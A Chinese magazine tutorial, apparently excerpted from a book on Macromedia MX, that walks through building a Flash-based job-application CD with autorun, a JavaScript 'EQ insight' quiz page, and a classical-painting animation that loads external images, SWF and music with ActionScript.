打开Flash MX，新建一个场景大小为800像素×600像素，背景为白色，帧速率为25fps的文件。保存文件为start.fla。将时间轴上的第一层名称Layer 1更改为bg - sky，按Ctrl + R键，在该层中输入图片sky.png，在其属性面板中，设定其左上角的坐标为(38，70)。

新建一层border，绘制一个无边框的、黑色的，大小为800像素×600像素的矩形，在属性工具面板中设定其坐标，使之与场景完全重合。并在同一层上，绘制一个大小为722像素×450像素的白色空心方框，在属性面板中，设定其左上角的坐标为(38，70)。然后删除白色边框中的黑色填充，最后锁定该层。动画的黑色边框就制作完毕了。

此时，时间轴上和场景中的情形如图3所示。


### 妙招

为什么要为动画设定一个比较宽的黑色边框呢？最主要的原因，是为了保证动画的流畅。因为该动画是全屏播放的，过大面积的渐变和移动，在配置较低的电脑上会有丢帧的现象。通过边框的限制，动画部分将被限制在中间较小面积的“窗口”内。小面积的动画对电脑的配置要求就要低一些。这是 Flash 全屏动画常用的一种方法。

如果动画一开始就出现蓝天白云的图形，比较突兀。因此，需要为图片添加一个淡入动画。选中场景中间的图形，按 F8 键，将其转换为名为 Gsky 的图形符号 (Graphic)。在层 bg-sky 的第 20 帧，按 F6 键，新建一个关键帧。设定第 1 帧场景中的图形符号 Gsky 的颜色效果：Alpha 值为 0%，并在第 1 ~ 20 帧之间建立渐变 (Motion Tween)。并延长时间轴上的层 border 的帧到 20 帧，如图 4 所示。


层 border 是整个动画的边框，它的帧数与动画的最大帧数相同。为了制作时查看效果，通常可以预先延长到一个比较大的帧数 (比如第 500 帧)，最后再根据动画的长短增加或删减帧数。

图片渐显出来之后，接着要在上面制作一些造型元素变换的动画。

新建一层 shape1，在该层的第 20 帧建立关键帧，绘制如图 5 左图所示的造型图案，在第 40 帧建立关键帧，将图案变形为如图 5 右图所示的造型。


在第 20 ~ 40 帧之间，建立形状渐变 (Shape Tween)，如图 6 所示。这样就完成了这个造型元素 (造型元素 01) 由窄到宽、纵向逐渐打开的动画。


与上面的方法相类似，下面将创建造型元素 02 渐变动画。

新建一层 shape2，在其第 40 帧建立关键帧，绘制如图 7 左图所示的造型，接着在第 50 帧，按 F6 建立关键帧，将造型元素 02 变形为如图 7 右图所示的造型。


在层 shape2 的第 40 ~ 50 帧之间，建立形状渐变 (Shape Tween)。如图 8 所示。这样，就完成了这个造型元素 02 由场景右边到左边、逐渐变形、伸长的动画。


新建一层 shape3，在其上的第 50 ~ 60 帧之间，创建造型元素 03 由场景右边到左边、逐渐变形、伸长的动画，如图 9 所示。


下面，要在场景中部，制作一个月形的位图变换动画。

新建一个动画片断Mpic，其时间轴和场景中的情况如图10所示。

这是一个比较复杂的动画片断。其中层mask中，为一个月形的填充体，它为其下面的层white和层pic建立遮罩效果。因此矩形的位图就只有月形区域范围才能显示出来。层pic的第1、31、61关键帧，分别在同样的坐标位置放置位图pic01.png、pic02.png和pic02.png。而层white中是一个白色矩形图形符号(名为white)的渐变，在第1、31、61关键帧，该图形符号属性面板中，color（颜色）项的设置为None（无），而其他关键帧的图形符号white的Color项中的Alpha值设为0%。这样，在层pic中三张图片的切换过程中，画面会有一种“发白”的效果。

另外，在动画片断Mpic的时间轴上，再新增加一层blackline，用线宽为3的黑色边框线绘制月形黑色边框。这样处理主要是为了画面的美观。

这样，动画片断Mpic就制作完毕了，按Ctrl + E回到主场景。

在主场景上，再新建一层moon-pic，在第61帧建立关键帧，将库（Library）面板中的动画片断Mpic拖到该帧场景的中部。按F6键，在第70帧建立关键帧，并设定第60帧场景中的动画片断Mpic 的Alpha值为0%，在第61～70帧之间建立渐变动画（Motion Tween），如图11所示。


为了丰富动画效果，还可以多制作几个小动画（动画片断）放到场景中，也可以制作一个动画片断，在场景中将其多复制几个，分别缩放为不同的大小，设定不同的Alpha值，也可以达到丰富动画的目的。

图12所示，为一个圆形造型对象旋转的动画片断Mcicle。注意在其第一帧的属性面板中，不但要设定Motion渐变，在Rotate（旋转）项，还要设定顺时针（CW）或逆时针（CCW）旋转一周。


然后，在主场景中新建一层circle，将动画片断Mcilcle放入，并且再复制两个，用缩放工具改变每个动画片断的尺寸大小，分别设定各自不同的Alpha值，如图13所示。


这样，开头动画和开始界面制作就暂告一段落，保存文件start.fla。接着，要在Fireworks MX中制作按钮的“背板”，并输出为透明GIF图形文件，然后在Flash MX中输入该透明图片。

### （二）在Fireworks MX中制作栏目按钮“背板”

打开Fireworks MX，新建一个画布大小为482像素×117像素、分辨率为72dpi、透明背景的文件，保存为button.png。先用Fireworks MX的矢量绘图工具，绘制如图14所示的图案，然后转换为位图。因为该光盘有5个栏目，所以图案中有5个圆形，用于放置5个栏目导航按钮。


绘制一个圆形路径，再键入文字“个人简介”，设置好字体、字号、颜色等，然后同时选中圆形路径对象和文字对象，如图15左图所示。按菜单栏Text（文本）> Attach to path (隶属于路径), 文本就环绕到圆形路径上了, 如图15右图所示。将完成的环绕文字复制四份, 分别移动到图案的其他五个圆形部分的中心, 并修改其中的文字为每个栏目的名称, 如图16所示。


最后保存文件 button.png, 这样按钮的 "背板" 图形就制作完毕了。下面要将文件输出为透明的 GIF 格式的图形文件。打开 Optimize (优化) 浮动工具面板, 设定输出的文件格式为 GIF, 颜色为 GIF 的最大颜色数 256 色, 采用 Alpha 透明方式, Matte (毛刺边缘色) 设定为与开头动画 start.fla 中造型元素 01 相同的颜色, 如图 17 所示。


设定完毕后, 按菜单栏 File (文件)> Export (输出), 就可以输出透明的 button.gif 文件了。

> > 妙招 对于 GIF 格式的 Matte 色的设定, 并非随心所欲。如果一个 Matte 颜色设为红色后生成的透明 GIF 图片, 放到白色背景上, 这个透明图片就会有红色的锯齿。因此, 要保证透明 GIF 图片与背景的吻合, 最好将其 Matte 色设定为将要放置的背景的颜色。

### （三）在 Flash MX 中制作导航按钮

在 Flash MX 中打开文件 start.fla 文件, 新建一个名为 menu 的图形符号。按 Ctrl + R 键, 输入透明图形文件 button.gif。下面, 要利用 Flash MX 公共库中自带的按钮来制作栏目按钮。

按菜单栏 Window (窗口)> Common Libraries (公共库)> Buttons (按钮), 打开库 (Library) 面板。在库面板下部的列表中, 选择 Push Button 文件夹展开, 如图 18 所示。


把其中的 5 个不同颜色的按钮, 分别拖动到图形符号 menu 上, 调节位置, 排列为如图 19 所示的样子。


为了让每个按钮按下时, 都能自动关闭 Flash 动画, 并自动打开相应的栏目网页, 需要在按钮上添加 action 脚本代码。

```
actionscript
on (release) {
    getURL("page1.htm"); // 打开栏目页面
    fscommand("quit"); // 关闭本动画
}
```

其中的 page1.htm 为栏目 "个人简介" 的页面, 页面的制作将在后面介绍。其他四个栏目的页面的文件则分别为 page2.htm (个人简历), page3.htm (毕业论文), page4.htm (个人作品) 和 page5.htm (联系我)。

与第一个栏目按钮添加的 action 相类似, 在其他四个栏目的按钮上, 添加相似的 action, 所不同的, 只是打开的页面文件不一样。这里不再赘述。

这样, 动画的导航栏目按钮部分就制作完毕了。按 Ctrl + E 键, 返回主场景。

在主场景时间轴的层 circle 上, 新建一层 nav, 在第 81 帧建立关键帧。按 F11 键, 打开库 (Library) 工具面板，将其中的图形符号menu拖动到第81帧场景中。

下面，单击时间轴左下方的按钮，为层nav添加导线功能。在导线层Guide:nav的第81帧，创建关键帧，绘制一条曲线作为导线，如图20所示。

在层nav的第95帧，按F6建立关键帧。为了保证开头动画播放完毕后，能停留在该帧，所以还需要在该帧添加一句action。

```
stop();
```

在层nav上的第81~95帧之间，建立移动渐变 (Motion Tween) 动画，即图形符号menu从场景外沿着导线滑行到场景中的动画。

选中第81帧场景中的图形符号 (Graphic) memu，将其移动到场景右边之外，让menu的中心在导线上，如图20所示。


选中第95帧（本动画的最后一帧）处的动画片断menu，将其移动到场景的中下部。同样，保证中心在导线上。如果其中心偏离了导线，menu的移动将不受导线的控制，如图21所示。


选中第81帧，在其属性工具面板中的Ease项，设定为100的Out效果，即让对象menu滑入场景中的速度是由快变慢。并勾选属性面板中的Orient to Path（适应路径）一项，这样，可让对象menu沿着导线滑行的同时，中轴线始终指向导线（弧线）的圆心。就如同一个围绕地球旋转的人造卫星；卫星旋转时，其天线始终指向地球，图22所示。


接着，为动画配上背景音乐。在主场景上再新建一层music，按Ctrl + R，输入背景音乐文件bg.wav。在属性面板中，选择bg.wav，并设定播放次数为999次，即接近无限次循环播放。

为了让动画全屏播放，还需要在动画的第一帧（任意层均可）添加如下一句action。

```
fscommand("fullscreen", "true");
```

最后，保存文件start.fla。按菜单栏File (文件)> Export (输出)，打开输出对话框。因为动画是在光盘中使用，不用考虑文件的容量大小，所以在输出对话框中，设定JPEG为100（最佳画质），并设定声音的处理方式为:Raw, 22Khz, Stereo（保持原样，不压缩，立体声），如图23所示。


单击OK确认，就可输出文件名为start.swf的动画文件了。

因为，本光盘最终需要的是EXE的可执行文件，所以，还需要发布一个可执行文件。按File (文件)> Publish Settings (发布设置)，打开发布设置对话框，在其中的Format (格式) 标签中，勾选Windows Projector (EXE) 一项，再单击右边的发布按钮，即自动发布文件名为start.exe的文件。

### （四）制作栏目页面的图片和内容

找一张尺寸较大的位图素材图片，打开Fireworks MX进行处理。

works MX，将其处理为（或者选择其中一部分）760像素×155像素大小，保存文件为page.png。该图片将放到每个栏目页面的上面。

打开Dreamweaver MX，新建一个文件，保存在同路径下，命名为page1.htm，如图24所示。在表格的第一行，插入图片page.png，下面分别建立5个栏目的超级链接。其中“个人简介”链接文件page1.htm，“个人简历”链接文件page2.htm，“毕业论文”链接文件page3.htm，“个人作品”链接文件page4.htm，“联系我”链接文件page5.htm。“个人简介”链接文本设置为与其他四个链接不一样的颜色，表示当前栏目为“个人简介”栏目。

完成后，保存文件page1.htm。然后，按Save As（另存为）文件为page2.htm，将第二个栏目链接文本颜色改变为与其他四个链接不同的颜色，并更改页面内容，标题等，保存文件。

按照这样的方法，分别另存、生成其他三个栏目的页面。

至此，所有栏目的页面，就全部制作完毕了。运行start.exe文件，待动画播放一会后，出现导航按钮，点击栏目按钮，就可以进入相应的页面了。

> 妙招：要想保证点击动画中的按钮能打开相应的页面，必须要将start.exe和每个栏目页面文件放到同一路径下。并且要保证该路径中没有双字节（比如中文）文件夹，否则页面不能打开。这是Macromedia公司的产品对中文支持不好造成的。

## （五）增加光盘自启动功能

虽然直接运行start.exe文件，就可以浏览整个光盘的内容，但是，感觉仍然不太方便。下面要制作一个文件，让光盘一放到光驱中，即开始自动播放片头动画。

打开记事本，输入以下内容。

```
[autorun]
open=start.exe
```

将文件保存为autorun.inf，并且和start.exe文件一起，放到光盘的根目录下。这样，光盘就有自动启动功能了。

如果能找到一个图标文件（比如sample.ico），那么，只需要在[autorun]的下面，加上一行。

```
icon=sample.ico
```

在Windows系统的“我的电脑”中的光盘图标，就会变为设定的图标。

最后，将文件刻录到空白CD-R上，贴上标签，一张精致的求职用光盘就制作完毕了。

#### 二、测试你的洞察力如何

本例要制作的是一个关于“你的洞察力如何”的EQ能力测试。在网页中，根据一个大家熟悉的“卖火柴的小女孩”的故事，制定了关于这个故事的四个答案。用户选择其一，网页即根据用户的选择，判定浏览者对事物的洞察力。

该网页的框架，采用一个已有的HTML文件，输入Fireworks MX中后，重新构建表格图形，然后输出而成。而测试内容的交互、提交及反馈等，则通过页面Javascript脚本编程技术来实现。

本例的重点在于应用了“由HTML文件创建PNG文件”的方法，表现了Dreamweaver MX与Fireworks MX合作、协同开发的能力。虽然这种方法不常用，但是，作为二者整合开发的一个方面，在某些特定场合，采用这一方法，会发挥意想不到的效果。

另外，本例应用了Fireworks MX的查找替换功能，对颜色进行替换；应用了动态网页的基础知识，实现了页面的简单交互。

### （一）准备HTML页面素材

为了省去重新设计网页框架的麻烦，可以采用一个现存的页面来进行处理。本例中，采用了搜狐校友录中的部分页面，如图25所示。先将这个页面保存为source.htm。为了方便读者，笔者已将该文件保存在本书配套光盘B:\booksource\sjk\source.htm文件夹下，而其中的图片则放在同目录文件夹images下面。


在Fireworks MX中，可以用两种方式对HTML文件进行编辑和处理，下面逐一介绍一下。

### (1) 输入HTML页面文件。

先打开Fireworks MX，新建一个400像素×400像素左右大小的文档。按菜单栏File（文件）> Import（输入），或者按快捷键Ctrl + R，选择输入已经准备好的source.htm文件。和所有的对象输入一样，这时，鼠标会变成一个直角形状。拖动鼠标，就可控制输入HTML页面表格的大小，如图26所示。保存文件为Eqtest.png。


按这种方法输入的HTML页面（在Fireworks MX中表现为表格），在输入时可随意控制大小，最适合在正在编辑的Fireworks MX文档中插入外部HTML页面。

同时可以看见，HTML文件输入后表格框架变成了Fireworks MX的切片。表格的背景图丢失了，只有表格内的图片、文本（在web层上）和表格本身的构架保留下来。如果HTML文件有其他对象（如Flash动画等），在输入Fireworks MX后，其信息也将丢失。

### (2) 利用Fireworks MX的Reconstitute Table（重建表格）编辑HTML文件。

在Fireworks MX中，不需要建立新文件。直接按菜单栏File（文件）> Reconstitute Table（重建表格），选择source.htm文件，Fireworks MX就自动打开文件，显示有切片的Fireworks MX文档，如图27所示。


可以看出，采用这种方法编辑外部HTML文件，实质与第一种方法一样，但它构建的表格大小已经固定。这种方法可以通过对Fireworks MX切片的调整，对表格重新构建，同时，也可方便地编辑其中的图片等对象。完成后保存文件为EQ.png。

充电站 由HTML文件创建PNG文件时，要特别注意：源HTML文件中，不能包含有除表格和图片之外的其他媒体元素，否则HTML文件不能导入或者其内容将丢失。这客观上也限制了该功能的广泛应用。

### （二）重新编辑图片和构建表格

选择Fireworks MX工具箱中的Pointer Tools（点选工具）按钮，再将鼠标指针靠近切片线的时候，鼠标指针会变为左右方向的双箭头状，这时就可以随意地拖动切片线条的位置了。拖动切片线条如图28所示。


再通过Fireworks MX的图形编辑工具，将图形更改为如图29所示的样子。


具体的实现方法，都是利用Fireworks MX的一些基本绘图和编辑知识来完成，这里不再赘述（如果读者对这些操作不熟悉的话，可打开光盘B中的\booksource\sjk\EQ.png文件参考一下，再行练习。或直接使用该文件以继续下面的练习）。

接下来，要利用Fireworks MX的Find and Replace（查找和替代）功能，对文档中的颜色进行替换处理。按菜单栏 Window (窗口) > Find and Replace (查找与替换)；或者按快捷键 Ctrl+F，打开 Find and Replace 浮动工具面板，如图 30 所示。


在图中的第一个下拉框中，选择 Search Document（搜索文档），第二个下拉框中选择 Find Color（查找颜色），第三个下拉框（即 Apply to）中选择 Fill&Stroke（填充和边框）。然后单击 Find 后面的色块，选择图29中的主色调红色（#FF6600），Change to 后面的颜色则选择另一种颜色（#5F9E9D）。最后单击 Replace All 按钮，替换所有颜色。替换成功后，将显示一个提示框，确定即可（如图 31）。


> 💡 **妙招** 如果你不知道想要查找的颜色的确切色彩值，可以借助吸管工具来帮你采集颜色。具体操作很简单，点击 Find Color 色块的时候弹出色板，这时光标变成了吸管状，移动光标在屏幕的任一位置点击，该位置的颜色便会被吸取过来。同样，这个方法也可应用于替换颜色的设置。

这时，会发现文字“你的洞察力如何”的 Effect（Glow发光特效）的边缘颜色还没有替换。在图30中的 Apply to 项，选择 Effect，然后单击 Replace All 按钮，该颜色即被替换。

在图30中，如果在 Apply to 项中选择 All Properties（所有元素），那么上面步骤中的两次替换，可一次性完成。不过，在更多的实际应用中，要慎用这个选项，它会替代文档中所有的合乎条件的元素。

完成后的图形（包括切片）效果如图32所示。


保存文件 EQ.png，再单击右上角的快速输出按钮，从 Dreamweaver > Export HTML 中输出名为 EQ.htm 的网页文件，而其切片图片放到同目录的 Images 文件夹中（在 Export 对话框中，选中 Put Images in Subfolder 选项，可指定图片的存放路径，否则图片与网页文件将在同一个文件夹下）。

> 💡 **妙招** Fireworks MX 的查找和替换功能非常强大，不仅可以替换文档的颜色，还可以查找和替换文档的文本、字体、URL等。不仅能替代整个文档的内容，还可以替代文档选区内、动画文档中的 Frame 内等内容，应用很普遍。用户甚至可以通过一次替换改变网页的风格。

### （三）在 Dreamweaver MX 中导入文件

打开 Dreamweaver MX，新建一文件 sample.htm。单击 Insert 工具箱中的[插入Fireworks HTML按钮]按钮插入在 Fireworks MX 中输出的 EQ.htm 文件。文件输入后，在 Dreamweaver MX 中，表现为一个大的表格，其中的文本部分也显示出来，如图 33 所示。


删除表格内的文字内容，重新构建表格。将两侧的图片变成背景图片，这样表格可根据内容随意变化高度，而边框不至于变形。最后在中间重新创建一个8行1列的表格，如图34所示。


图34

### （四）建立内容和表单

选中中间的表格，按 Ctrl + X 键将其剪切到剪贴板上。按下 Dreamweaver MX 编辑区上部 Insert 工具箱中的 Forms（表单）标签，显示出该选项中的多个插入按钮，如图 35 所示。


图35

单击其中的□按钮，插入一个 Form 表单，然后按 Ctrl + V 键将刚才剪切的表格粘贴在该表单中，并在每行单元格输入相关文字内容。再单击按钮[○]，分别插入四个 Radio Button（单选框）；单击按钮[ ]，插入 Button（提交按钮）；单击按钮[□]，插入 TextArea（文本域）。结果如图 36 所示。


图36

然后设定插入的每个对象的属性。其中第一个单选框的属性设定为如图 37 所示。ID 号为 c1，Checked Value（选中值）为1，初始状态为：Unchecked。


图37

同样，设定其他三个单选框的值，基本设置都一样，只是 Checked Value（选中值）不一样，分别为 2、3、4。

然后设定按钮的属性。Label（卷标名）中键入按钮上的文字“已选好，看看结论！”。Action 设定为 None，如图 38 所示。


图38

最后设定文本域的属性，如图 39 所示。ID 名称设定为 answer，字符宽度为 35，文字行数为 4，换行方式（Wrap）为 Virtual 方式。


图39

### （五）编写 JavaScript 脚本

单击 Dreamweaver MX 左上部的□按钮，将文档 sample.htm 切换到代码（源文件）显示状态。在 HTML 源文件的 `<head>` 标签之间，添加以下 JavaScript 语句。

```
<SCRIPT language=JavaScript>
<!--
function processForm(form){
if (form.c1[0].checked==1) form.answer.value='贫苦的小孩极需要钱过圣诞,怎么会卖火柴?在这喜气洋洋,家家狂欢的年节,再奢侈的东西人家也舍得买。这时卖火柴,够蠢,不是很不搭调吗?能表达这观点的人,看人的眼光一级棒。';//如果选择第一个单选框,则调用第一个结论。
if (form.c1[1].checked==1) form.answer.value='在家被酗酒的父亲虐待,还要出来赚钱养他。不离开父亲,所以不断被折磨受苦。离开父亲的魔掌,就可能脱离苦海。你看出这原因与结果的矛盾,表示你对别人的言行,有冷静的分析能力。'; //如果选择第二个单选框,则调用第二个结论。
if (form.c1[2].checked==1) form.answer.value='以"没有人帮助小女孩"觉得最奇怪,正是中了原作者的下怀。这也表示你看人的眼光,稍差。为人正直是件好事。但你竟毫无疑人之心,人家说的话照单全收,丝毫没有防人之心,却不是好事。'; //如果选择第三个单选框,则调用第三个结论。
if (form.c1[3].checked==1) form.answer.value='太着眼于表象,重视结果超过了过程。对你来说,要紧的是结果怎样,而不是如何费心花巧思做出来的。在经商上,这也许行得通。不过你会对作弊得来的95分,比靠努力与实力得到的5分,给予更高的评价。';
}
//-->
</SCRIPT>
```

然后将按钮所在行的代码：

```
<input type="button" name="Button" value="已选好,看看结论！">
```

替换为

```
<INPUT onclick=processForm(this.form) type=button value="已选好,看看结论！">
```

最后保存文件sample.htm。至此，关于“EQ测试:你的洞察力如何”的例子就完成了。在浏览器中打开，测试一下其效果，看看是不是很有意思(如图40)。


- 小女孩卖火柴。
- 小女孩不从父亲那里逃出来。
- 没有一个人帮助那小女孩。
- 没有一个人向她买一盒火柴。

#### 三、品茗赏画

本动画作品完成后，会出现一幅具有浓郁中国古典风格的画面。画面中，伴随美妙的古典音乐，一幅中国古代名画徐徐展开，一杯香茶醇香扑鼻……一派闲情怡景、品茗赏画的景致。当单击其中的“赏画”按钮时，古画会徐徐叠起，再慢慢展示另外一幅名作。多次点击“赏画”按钮，会欣赏到多幅国画名作。同时，在画面中，还有一个全屏切换按钮，可以切换到全屏，欣赏效果。

例子完成后的效果如图41所示。

在本例作品中，香气四溢的茶杯的动画是在Fireworks MX中制作的，并输出为SWF文件。作品制作中的一大特点是:画面中的每一幅古画、背景音乐和茶杯的SWF动画，都是通过Flash MX外部动态加载的。虽然这些对象都可以采用普通的方法，在导入到Flash MX中以后再作处理，但是，采用动态加载的方式，极大地方便了作品的维护，是更值得推荐的方式。


本例应用了Fireworks MX输出SWF动画的输出方式，而输出的SWF文件又可在Flash动画中方便地导入或者外部装载使用，体现了Fireworks MX与Flash MX二者之间的协作、配合开发能力。例子中应用了Fireworks MX制作动画较高级的技巧，以及大量的矢量编辑知识等。还重点涉及了Flash MX中的新功能，如采用LoadMovie命令动态加载图片、采用LoadSound命令动态加载声音等。另外，例子中全屏切换按钮还采用了Fscommand中的全屏命令等。

### （一）在Fireworks MX中制作动画

先绘制茶杯的外形。用工具箱中的（矢量笔）工具绘制如图42所示的杯体造型。然后，选择Radial（半径）填充方式，调制出如图42右图所示的渐变色，填充到杯体的路径范围中。


设置同样的Radial（半径）渐变填充方式，选择矩形造型工具，绘制茶杯的底部，如图43所示。


选用工具箱中的椭圆造型工具，设定填充为None（无），设定边框的颜色、宽度，以及线条的样式（这里设为Soft Rounded，即光滑圆形样式）等，如图44所示。


设定好边框线条后，用工具箱中的椭圆工具绘制杯口的边缘，用工具箱中矢量笔工具，绘制茶杯的手柄，如图45所示。


下面，要在茶杯的上方用线条表示茶杯冒出的烟气。通过线条的运动变化，来表现香气四溢的感觉。用工具箱中矢量笔工具在茶杯的上方绘制三段不规则的曲线，将每条曲线节点处的过渡调整光滑，如图46所示。


选中每条曲线，分别在属性面板中设定线条选项如图47所示。线宽为7，颜色为黑色，样式为光滑圆形，容量为30%等，并添加一种名为Gaussian Blur（高斯模糊）的即时特效（Live Effect）。


双击图47中Effect下面的特效列表中的Gaussian Blur，可以再次编辑该效果，如图48所示。为线条添加高斯模糊效果，可以增加烟雾的感觉。


打开Frames（帧）工具面板，可以看见，已经绘制的图案默认放到了Frame 1（第1帧）中。全选第1帧中画布上的所有对象，按Ctrl + C键复制。单击帧工具面板下部的按钮，新增加一帧Frame 2，按Ctrl + V键，粘贴第1帧的内容。并用矢量工具，调节第2帧中的烟气曲线的形状，如图49所示。


单击帧工具面板中的按钮，再新增加一帧Frame 3，按Ctrl + V键，在该帧中粘贴。用矢量工具，适当调节第3帧中的烟气曲线的形状，如图50所示。因为从Frame1 - 3的三帧中，三段代表茶水烟气的曲线形状均有所不同，所以，三帧连续播放时，就会产生不断冒汽的动画。


单击文档编辑窗口下部的控制条中的空心三角形按钮，可以测试动画的效果。测试后发现，动画速度过快。双击帧（Frames）工具面板中，每帧后面的数字7，分别将其改为20，即每一帧停留0.2秒。再次测试，发现动画的播放速度已经合适了。如果你觉得还是太快，可增加值。

这样，就在Fireworks MX中完成了茶杯冒汽的动画，保存文件为cup.png。

## (二) 在 Fireworks MX 中输出 SWF 动画

下面，要输出动画文件为 SWF 格式。单击文件编辑窗口右上角的快速输出（Quick Export）按钮，选择Macromedia Flash MX > Export SWF（输出 SWF 格式），如图51所示。


这时，Fireworks MX打开如图52左图所示的对话框，单击其中的Options（选项）按钮，打开如图52右图所示的对话框。在其中的Objects（对象）项，选择Maintain Appearance（保持外貌），并设定帧速率为6fps，其他项保持默认状态。单击OK按钮返回。


最后，单击输出对话框中的“保存”按钮，将动画文件保存为cup.swf即可。

> 妙招 本例在由 Fireworks MX 中输出 SWF 动画时，在 SWF 输出项中，选择了 Maintain Appearance（保持外貌）。这样，不至于丢失 Fireworks MX 源文件中的一些效果（如本例中的高斯模糊的即时效果等），但同时也降低了可编辑性（烟汽的曲线，将在 SWF 文件中以位图形式表现）。

## (三) 制作古画卷轴打开效果

准备三幅中国古代名画的图片素材（可在本书配套光盘B相应目录中找到），分别在Fireworks MX中打开它。先通过工具箱中的切割工具，按适当比例切取原始素材图片中的主体部分，按菜单栏Modify（修改）> Canvas（画布）> Image Size（图形尺寸），并将三幅图片均处理为400像素×180像素大小，分别输出文件名为p01.jpg、p02.jpg和p03.jpg的图形文件。

而背景音乐最好选用一首中国古典名曲，本例选用了一首‘渔舟唱晚’的MP3音乐，将其文件命名为bg.mp3，以便于Flash MX的调用。

下面，开始制作带卷轴的古画向两边徐徐展开的动画。古画本身是通过动态装载的方式载入的，而古画从中间到两边逐渐显示出来的效果，将通过遮罩的方式实现。

先制作卷轴的图案。新建一个图形符号（Graphic）:scroll，用矩形工具和渐变色填充色，绘制如图53所示的卷轴图案。


动态载入的图片可以放到 Flash 动画的一个层上，也可放到一个动画片断Movie Clip里。本例要将图片动态装载到一个动画片断中。在主场景的第一层（更名为input-pic）上，随便绘制一个矩形，按F8将其转换为名为china-pic的一个动画片断（Movie Clip），设定该动画片断的实体名称为pic，并移动该对象，使之与场景的原点（左上角）坐标重合，如图54所示。


新建一层mask，在其上绘制10像素×181像素大小的、颜色较醒目的矩形。在第30帧建立关键帧，将该帧矩形的宽度变为385像素，并在第1～31帧之间建立形状渐变。

然后，将层mask的第1帧拖动到第2帧，让第1帧为空白帧，并创建遮罩效果，如图55所示。


在层 input-pic 的第一帧，添加以下的 action 代码。

```
loadMovie("p01.jpg", "_root.pic");
```

代码的意思是将动画同路径下的图形文件 p01.jpg 载入到实体名为 pic 的动画片断中。在动画的第一帧载入图片的目的，是为了让动画一开始运行，就有一幅古画出现。

> 妙招 图片载入时，Flash MX 会将图片的左上角放到将要载入目标（动画片断）的中心。所以，要注意调节目标的位置。如本例中，若要保证载入的图片的左上角在场景的左上角重合，则必需保证动画片断 china-pic 中心，与场景的左上角重合。对于其他对象的载入（比如 SWF 文件），也是一样的道理。

接着制作卷轴展开的动画。新建两层 scroll-left 和 scroll-right，第一帧为空帧。分别从第 2 帧到第 31 帧之间，创建左、右卷轴的移动渐变（Motion Tween）动画。如图56左图所示，就是此时 Timeline（时间轴）上的情况。右图所示，为第2帧时，场景中左右卷轴的位置情况。


而第 31 帧处，场景中左右卷轴的位置，如图 57 所示。因为图片没有载入（动画运行时动态载入），故看不见卷轴下面的古画。


这样，古画的动态载入和卷轴展开的动画就制作完毕了。下面，要制作三个按钮，以控制三个古画图片文件的调用。

分别制作三个按钮 pic01、pic02 和 pic03，将之放到新建的一层 button 上，并且排列整齐，放到场景的右下方。如图58所示，为其中一个按钮 pic01 的结构情况。

然后，在按钮 pic01 上添加如下 action 代码。

```
on (release) {
    loadMovie("p01.jpg", "pic");
    gotoAndPlay(2);
}
```

其意思是：当单击按钮 pic01 时，将装载图形文件 pic01.jpg（第一幅古图），并跳转到第 2 帧开始播放，即由中间到两边，逐渐显示载入的古图，同时逐渐展开卷轴。

同理，在按钮 pic02 上添加如下 action 代码。

```
on (release) {
    loadMovie("p02.jpg", "pic");
    gotoAndPlay(2);
}
```

在按钮 pic03 上添加如下 action 代码：

```
on (release) {
    loadMovie("p03.jpg", "pic");
    gotoAndPlay(2);
}
```

## （四）在 Flash MX 中调用茶杯动画

在 Flash 动画中装载 SWF 文件的方法，与装载 JPG 图形文件的方法类似。

在主场景上，新建一层 tea-cup，在里面随便绘制一个矩形，按 F8 键，将其转换为名为 cupani 的动画片断。该动画片断中的内容如何，没有影响，因为它将被载入的文件覆盖。里面绘制一个矩形，只是为了方便编辑。

调节动画片断 cupani 到合适位置，如图 59 所示。在其属性面板中，定义其实体名称（Instance Name）为 cup。


在层 tea-cup 的关键帧上，添加如下 action 代码，以载入茶杯冒汽的动画文件 cup.swf。

```
loadMovie("cup.swf", "cup");
```

这样，用Fireworks MX输出的茶杯动画，也动态装载进Flash动画文档中了。

## （五）在Flash MX中制作全屏切换按钮

分别制作两个按钮：按钮window和按钮fullscreen，如图60所示。


新建一个动画片断switch，该动画只有两个关键帧，第一帧放置按钮window，第二帧放置按钮fullscreen，如图61所示。并在每一帧添加action。

```
stop();
```


在第一帧的按钮window上，添加如下action代码。

```
on (release) {
    fscommand("fullscreen", "true");
    gotoAndStop(2);
}
```

在第二帧的按钮fullscreen上，添加如下action代码：

```
on (release) {
    fscommand("fullscreen", "false");
    gotoAndStop(1);
}
```

最后，将动画片断switch拖到层button中、场景中下部的适宜位置。另外，在层button的场景合适位置，键入该动画的标题‘品茗赏画’。

## （六）在Flash MX中调用背景音乐

在主场景Timeline中所有层的上面，再新建一层sound，在该层上添加如下Action代码，以调用外部同路径下的背景音乐文件bg.mp3。

```
s = new Sound(); //定义一个新的声音对象
s.loadSound("bg.mp3", true); //以Eevent方式动态载入背景音乐
s.start(); //开始播放音乐
```

如果上述代码中的第2行中的‘true’，更改为‘false’，音乐将以Stream的方式载入。 另外，还需要设定卷轴展开后，动画停止。所以，在层sound的第30帧，建立一个关键帧，添加action代码。

```
stop();
```

> 妙招

纵观Flash MX中外部文件的动态装载（load）技术，其中SWF文件和JPG文件的载入比较类似，只有声音文件的动态载入有所不同。原则上，Flash MX只能动态载入标准的JPG图形文件和MP3格式的声音文件。

文件的动态载入，就如同网页中插入的对象一样，极大地方便了产品的维护。当需要改变动画的图片和音乐内容时，用户不必更改Flash MX的源文件，只需要更改外部的图形或声音文件即可。

整个动画完成后的时间轴（Timeline）上的帧的情况如图62所示。


最后，保存Flash MX源文件sample.fla，并输出动画文件sample.swf。为了让没有安装Flash MX播放器的用户也可以浏览到该动画，可以按Ctrl + Shift + F12键，打开Publish Setting（发布设置）对话框，如图63所示。


勾选Windows Projector (.exe)一项，单击Publish（发布）按钮，将动画输出为一个内嵌播放器的EXE可执行文件。

编者按：本文摘自《Macromedia MX三剑客立体作战》一书，该书将由电脑爱好者杂志社合订本部倾情推出，欢迎查询与订购。

(文/维创工作室)

### 网页设计美学原则

#### 一、从“唯技术”回归到设计

纯粹的网页设计与美学的联姻，最早是在欧洲兴起。当我们还沉浸在终于在互联网上安家了的无限喜悦中时，国外的美术院校与美术机构已经在热火朝天地讨论着——网页设计是否属于平面设计，抑或是它的一个分支，或干脆是一种全新的设计门类？当时有这样的争论是完全可以理解的，因为那时的互联网带宽有限、页面技术也比较初级，网页几乎就是也只能是图片加文字的模式，而一个网站的建站模式，也非常类似于一本个人宣传手册（个人网站）的设计方法，或是一本企业形象手册（企业网站）排版模式。

